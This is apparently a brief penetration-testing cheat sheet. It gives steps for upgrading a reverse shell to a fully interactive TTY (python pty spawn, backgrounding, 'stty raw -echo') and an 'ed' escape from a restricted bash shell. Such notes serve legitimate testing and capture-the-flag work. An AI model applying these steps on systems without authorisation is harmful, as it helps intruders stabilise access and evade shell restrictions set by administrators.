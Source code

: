 # TTY linux

(on the reverse shell)   
`python3 -c "import pty; pty.spawn('/bin/bash')"`


(press on your keyboard)  
`Ctrl+Z`

(press on your keyboard)  
`Enter`

(on your local host)  
`stty raw -echo;fg`

(press on your keyboard)  
`Enter`

(press on your keyboard)  
`Enter`

(on the reverse shell)  
```
export TERM=xterm
reset
export SHELL=bash
export TERM=xterm-256color
```

## Upgrade Restricted Shells
https://www.hacknos.com/rbash-escape-rbash-restricted-shell-escape/
ed
!'/bin/bash'